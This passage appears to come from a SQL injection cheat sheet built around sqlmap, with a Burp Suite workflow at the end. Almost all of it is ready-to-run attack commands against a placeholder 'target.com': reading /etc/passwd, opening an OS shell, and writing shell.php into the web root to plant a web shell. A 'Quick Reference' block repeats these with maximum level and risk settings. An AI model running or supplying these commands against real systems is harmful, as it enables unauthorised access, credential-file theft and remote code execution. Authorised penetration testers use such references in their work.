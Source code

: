 ```bash
# Step 6: File operations (if DBA)
sqlmap -u "http://target.com/page.php?id=1" --batch --file-read "/etc/passwd"
sqlmap -u "http://target.com/page.php?id=1" --batch --os-shell
```

##### Quick Reference Commands
```bash
# Fast automated scan
sqlmap -u "URL" --batch --level=5 --risk=3

# POST request with session
sqlmap -u "URL" --data="param=value" --cookie="session=abc" --batch

# File read + write + shell
sqlmap -u "URL" --file-read="/etc/passwd" --batch
sqlmap -u "URL" --file-write="shell.php" --file-dest="/var/www/html/" --batch  
sqlmap -u "URL" --os-shell --batch
```

#### Burp Suite Integration
```bash
# Workflow integration
1. Intercept request in Burp Suite
2. Save request to file (req.txt)
3. Use: sqlmap -r req.txt --batch
4. Analyze results in Burp Scanner
5. Manual verification with Repeater
``` 